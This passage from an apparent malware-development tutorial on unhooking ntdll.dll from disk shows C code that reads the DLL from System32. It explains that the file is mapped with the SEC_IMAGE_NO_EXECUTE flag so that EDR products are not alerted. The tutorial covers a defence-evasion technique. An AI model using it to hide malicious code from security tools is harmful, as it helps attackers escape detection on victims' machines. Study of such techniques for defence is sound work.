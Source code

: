```
	hFile = CreateFileA(cNtdllPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileA Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	// allocating enough memory to read the ntdll.dll file
	dwFileLen     = GetFileSize(hFile, NULL);
	pNtdllBuffer  = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwFileLen);

	// reading the file
	if (!ReadFile(hFile, pNtdllBuffer, dwFileLen, &dwNumberOfBytesRead, NULL) || dwFileLen != dwNumberOfBytesRead) {
		printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
		printf("[i] Read %d of %d Bytes \n", dwNumberOfBytesRead, dwFileLen);
		goto _EndOfFunc;
	}

	*ppNtdllBuf = pNtdllBuffer;

_EndOfFunc:
	if (hFile)
		CloseHandle(hFile);
	if (*ppNtdllBuf == NULL)
		return FALSE;
	else
		return TRUE;
}

```
### **Mapping NTDLL**

The `CreateFileMappingA` and `MapViewOfFile` WinAPIs can also be used to read the `ntdll.dll` file from `C:\Windows\System32\`. When using these WinAPIs, the text section offset will be 4096 rather than 1024. This is because the image is mapped which causes the Windows loader to apply this alignment modification. Without the `SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA`, this alignment will not occur and therefore the offset remains at 1024.

The `SEC_IMAGE_NO_EXECUTE` flag will be used in the implementation below because it doesn't trigger the [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. This means that the use of this flag will not alert EDRs and other security products that are utilizing this function when ntdll.dll is mapped into memory. This is indicated in the Windows documentation for `CreateFileMappingA` as shown below.

[![](84%20NTDLL%20Unhooking%20-%20From%20Disk%208aeadeff47ae40f2bf190a32b0678f0a/ntdll-unhooking-disk-118295799-85ce595b-6772-44bf-b764-0ba034284c2e.png)](84%20NTDLL%20Unhooking%20-%20From%20Disk%208aeadeff47ae40f2bf190a32b0678f0a/ntdll-unhooking-disk-118295799-85ce595b-6772-44bf-b764-0ba034284c2e.png)Fetching `ntdll.dll` from disk using the mapping WinAPIs is done via the custom `MapNtdllFromDisk` function below. `MapNtdllFromDisk` returns `TRUE` if it succeeds in reading the ntdll.dll file.

